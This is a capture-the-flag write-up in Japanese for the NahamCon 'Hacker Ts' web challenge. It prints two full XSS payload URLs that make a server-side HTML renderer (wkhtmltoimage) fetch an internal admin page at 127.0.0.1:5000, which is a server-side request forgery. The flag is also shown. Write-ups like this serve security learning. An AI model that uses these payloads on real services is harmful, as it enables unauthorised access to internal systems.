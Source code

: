 # Hacker Ts:Web:422pts
We all love our hacker t-shirts. Make your own custom ones.  

**Connect with:** 
- [http://challenge.nahamcon.com:31242](http://challenge.nahamcon.com:31242/)  

# Solution
Tシャツ作成サイトのようだ。  
入力した文字列でTシャツ画像を表示できる。  
Hacker Ts  
[site1.png](site/site1.png)  
試しに`Satoki`を入力してみる。  
[site2.png](site/site2.png)  
URLは`http://challenge.nahamcon.com:31242/exploit?text=Satoki&color=%2324d600`であった。  
Adminページがあるが内部専用(localhost:5000)のようだ。  
[site3.png](site/site3.png)  
SSRFを狙う。  
ここで`<s>atoki`をTシャツの文字列として入力すると以下のようであった。  
![t1.png](images/t1.jpg)  
HTMLタグが生きている。  
scriptタグでページをgetできそうだと気づく。  
以下のURLで行う。  
GETした後、innerHTMLで画像として取得できるよう表示している。  
```
http://challenge.nahamcon.com:31242/exploit?text=<script>var xhr = new XMLHttpRequest();xhr.open("GET", "http://challenge.nahamcon.com:31242", true);xhr.onload = function () {document.documentElement.innerHTML = xhr.responseText;};xhr.send(null);</script>Satoki&color=%2324d600
```
![ssxss.png](images/ssxss.png)  
サーバーサイドでXSSができることが分かった。  
あとはSSRFにつなげればよい。  
URLを`abc`などにするとwkhtmltoimageのエラーが起こったためオリジン制限は厳しくないと考えられる。  
あとは`http://127.0.0.1:5000/admin`をGETしてやればよい。  
```
http://challenge.nahamcon.com:31242/exploit?text=<script>var xhr = new XMLHttpRequest();xhr.open("GET", "http://127.0.0.1:5000/admin", true);xhr.onload = function () {document.documentElement.innerHTML = xhr.responseText;};xhr.send(null);</script>Satoki&color=%2324d600
```
flagが得られた。  
![flag.png](images/flag.png)  

## flag{461e2452088eb397b6138a5934af6231}